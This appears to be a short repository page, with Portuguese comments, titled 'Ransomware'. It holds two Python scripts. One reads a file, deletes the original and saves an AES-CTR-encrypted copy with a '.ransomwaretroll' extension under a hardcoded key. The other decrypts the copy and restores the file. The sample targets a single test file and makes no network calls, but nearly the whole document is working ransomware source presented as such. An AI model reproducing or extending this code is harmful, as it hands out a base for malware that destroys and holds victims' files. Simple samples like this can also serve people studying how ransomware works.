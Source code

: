 # Ransomware

### Encrypt.py
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)

### Derypter.py

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()


new_file.close()

### Teste.txt

Kali-Linux lovers
